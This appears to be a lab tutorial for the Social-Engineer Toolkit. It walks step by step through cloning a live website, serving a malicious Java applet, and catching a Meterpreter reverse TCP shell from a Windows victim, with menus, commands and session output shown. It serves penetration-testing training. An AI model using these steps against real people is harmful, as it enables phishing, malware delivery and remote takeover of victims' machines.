

The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./setoolkit`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

Select `Website Attack Vectors` in the current menu (item #2).

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

Now we can take a look at how we want to build this website.  Our options
are to choose bewteen using existing web templates or to clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Now, set is going to prompt us to decide if we want to use the built in applet, or create our own.  Applet signing can be a bit tricky, and in recent years web browsers have become increasingly picky about what types of applets they run (if they run applets at all).

		1. Make my own self-signed certificate applet.
		2. Use the applet built into SET.
		3. I have my own code signing certificate or applet.

		Enter the number you want to use [1-3]: 

We recommend you select option #2.  

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #1 for now, which is the `Meterpreter Memory Injection`.

       1) Meterpreter Memory Injection (DEFAULT)	This will drop a meterpreter payload through PyInjector

`set:payloads>` **`1`**

Change the port for the listener if you want, or just leave it as the default 443.  If you have something already listening on 443 you'll obviously need to change the port here to something else, ex 8839.

`set:payloads> PORT of the listener [443]:` **`8839`**

Next we will select the type of payload we wish to deliver through memory injection.  I recommend option #1 which is `Windows Meterpreter Reverse TCP`.

		1) Windows Meterpreter Reverse TCP
		2) Windows Meterpreter (Reflective Injection), Reverse HTTPS Stager
		3) Windows Meterpreter (Reflective Injection), Reverse HTTP Stager
		4) Windows Meterpreter (ALL PORTS) Reverse TCP

`set:payload> Enter the number for the payload [meterpreter_reverse_https:` **`1`**

That's it, the listener should now launch.

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If ADHD is configured as expected you should be able to find the payload at this address from the ADHD machine (open a web browser) `http://localhost/html/index.html`.  If you wish to trigger the payload you will want to connect to that page from a windows machine using a browser that will execute the applet (like Firefox or IE).  For this you will likely need the IP address to your ADHD instance which you can retrieve using the command `ifconfig`.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.

